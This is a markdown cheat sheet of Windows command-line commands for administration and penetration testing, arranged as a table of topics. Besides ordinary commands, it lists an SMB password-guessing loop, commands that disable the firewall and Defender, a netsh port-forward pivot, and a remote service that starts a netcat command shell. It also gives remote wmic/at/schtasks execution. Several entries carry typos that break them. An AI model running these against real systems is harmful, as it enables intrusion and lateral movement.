 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Windows Commands**

Category | Topic | Command
Accounts and Privileges | Lauch with Admin Privs | ctrl+shift+enter 
Accounts and Privileges | SID | S-[revision level]-[authority level]-[domain/computer]-RID
Accounts and Privileges | Admin RID | 500
Accounts and Privileges | Guest RID | 501 
Accounts and Privileges | Users RID | 1001 and up
Accounts and Privileges | Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Accounts and Privileges | Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
Accounts and Privileges | List Local Users | net user
Accounts and Privileges | List Groups | net localgroup
Accounts and Privileges | List Administrators | net localgroup administrators 
Accounts and Privileges | List Account Policy | net accounts or net accounts /domain
Accounts and Privileges | Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Accounts and Privileges | Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"
AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter
Inventory, File Search, and Counting | Count Lines | type "file" | find /c /v ""
Inventory, File Search, and Counting | Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Inventory, File Search, and Counting | Display File Contents | type [file], type *.[ext], type [file1] [file2]
Inventory, File Search, and Counting | Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
Inventory, File Search, and Counting | See Environment Variables | set, set [variable_name] <br> Example: username, path
Inventory, File Search, and Counting | Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Inventory, File Search, and Counting | Read Registry Key | reg query [keyName] 
Inventory, File Search, and Counting | Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Inventory, File Search, and Counting | Export Registry Keys | reg export [keyName] [filename.reg] 
Inventory, File Search, and Counting | Import Registry Keys | reg import [filename.reg]
Inventory, File Search, and Counting | Find a String  | find "[string]", findstr [regex] 
Network and Firewalls | Network Activity | <code> netstat -na | find ":[port]"</code> 
Network and Firewalls | DNS cahce | ipconfig /displaydns
Network and Firewalls | Turn firewall off | netsh advfirewall set allprofiles state off
Network and Firewalls | Firewall Rule | netsh advfirewall firewall add rule name="<name>" dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=<port number> <br> Example: 3389, 23
Network and Firewalls | Delete Firewall Rule | netsh advfirewall firewall del rule name="<name>" 
Network and Firewalls | Disable Firewall | netsh advfirewall set allprofiles state off 
Network and Firewalls | Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
Network and Firewalls | View Firewall Configuration | netsh advfirewall show allprofiles 
Network and Firewalls | Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
 
Network and Firewalls | DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" | 
Network and Firewalls | Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST> | 
Process and Service | Install a service | "pkgmgr /iu:""<servicename>""
dism /online /Enable-Features /FeatureName:TelnetServer" | 
Process and Service | List Running Services | sc query | 
Process and Service | List All Services | sc query state= all | 
Process and Service | List Remote Services  | sc \\[targetIP] query | 
Process and Service | Check status of service | sc query [service name] | 
Process and Service | Start/Stop a service | sc start/stop [service name] | 
Process and Service | Change Startup type of service | sc config [servicename] start= demand | termservice, telnet
Process and Service | Delete Service | sc delete [service name] | 
Process and Service | List Processes | tasklist | 
Process and Service | Kill a Process | taskkill /PID [process_ID] | 
Remote Access, SMB, and WMIC | See Current Privileges | whoami | 
Remote Access, SMB, and WMIC | Windows null session | net use \\targetip "" /u:"" | 
Remote Access, SMB, and WMIC | Establish an SMB session | net use \\[targetIP] [password] /u:[user] | 
Remote Access, SMB, and WMIC | Mount a Share on Target | "net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user]" | 
Remote Access, SMB, and WMIC | Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del" | 

Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

